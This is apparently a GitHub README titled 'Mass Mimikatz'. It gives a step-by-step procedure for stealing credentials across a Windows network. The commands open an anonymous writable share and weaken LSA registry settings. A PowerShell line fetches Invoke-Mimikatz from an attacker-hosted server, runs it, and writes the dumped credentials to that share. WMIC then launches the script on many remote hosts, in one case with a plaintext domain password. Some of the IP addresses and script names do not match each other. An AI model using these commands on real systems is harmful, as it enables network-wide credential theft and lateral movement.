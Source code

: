 # Mass Mimikatz

1. Make Share:
```
cd\
mkdir open
net share open=C:\open /grant:everyone,full
icacls C:\open\ /grant Everyone:(OI)(CI)F /t
```

2. Set registry keys ([massmimi_reg.rb](https://raw.github.com/mubix/post-exploitation/master/scripts/mass_mimikatz/massmimi_reg.rb) meterpreter script):
```
reg change HKLM\System\CurrentControlSet\services\LanmanServer\Parameters NullSessionShares REG_MULTI_SZ open
reg change HKLM\System\CurrentControlSet\Control\Lsa "EveryoneIncludesAnonymous" 1
```

3. Change directory into new "open" directory

4. Upload powershell script ([powermeup.cmd](https://raw.github.com/mubix/post-exploitation/master/scripts/mass_mimikatz/powermeup.cmd)):
```
powershell "IEX (New-Object Net.WebClient).DownloadString('http://192.168.1.127:8080/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -DumpCreds > \\192.168.1.127\open\%COMPUTERNAME%.txt 2>&1
```

5. Upload [clymb3r](http://clymb3r.wordpress.com/)'s Invoke-Mimikatz ps1 - Download from [PowerSploit](https://github.com/mattifestation/PowerSploit) repo: [source on github](https://raw.github.com/mattifestation/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1)

6. Upload mongoose: [Downloads Page](http://cesanta.com/downloads.html) - Both regular and tiny versions work

7. Upload serverlist.txt - This is a line by line list of computer names to use mimikatz on.
 
8. Execute mongoose (from directory with mimikatz.ps1) - This will start a listener with directory listings enabled on port 8080 by default

9. Execute wmic:
```
wmic /node:@serverlist.txt process call create "\\192.168.92.127\open\powershellme.cmd"
```

9a. Execute wmic with creds:
```
wmic /node:@serverlist.txt /user:PROJECTMENTOR\jdoe /password:ASDqwe123 process call create "\\192.168.92.127\open\powershellme.cmd"
```


## clean up:

1. kill mongoose process
2. net share open /delete
3. kill registry values
4. delete "open" directory

